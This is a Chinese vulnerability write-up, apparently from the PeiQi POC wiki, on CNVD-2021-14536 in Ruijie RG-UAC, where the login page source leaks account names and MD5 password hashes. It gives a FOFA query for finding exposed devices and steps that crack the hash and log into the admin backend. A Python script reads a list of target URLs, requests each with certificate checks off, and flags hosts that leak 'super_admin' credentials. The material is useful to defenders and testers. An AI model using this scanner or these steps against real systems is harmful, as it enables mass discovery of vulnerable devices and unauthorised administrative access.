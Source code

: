 # 锐捷 RG-UAC 账号密码信息泄露 CNVD-2021-14536

## 漏洞描述

锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露,可以间接获取用户账号密码信息登录后台

## 漏洞影响

```
锐捷RG-UAC统一上网行为管理审计系统
```

## FOFA

```
title="RG-UAC登录页面"
```

## 漏洞复现

来到登录页面

![](./images/202202110922912.png)

按F12查看源码,可以发现账号和密码的md5形式

![](./images/202202110922760.png)

解密md5得到密码后即可登录系统

![](./images/202202110922007.png)

![](./images/202202110922717.png)

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: 锐捷RG-UAC统一上网行为管理审计系统                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "super_admin" in response.text and "password" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,F12查看源码获取密码md5值 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```

![](./images/202202110923131.png)

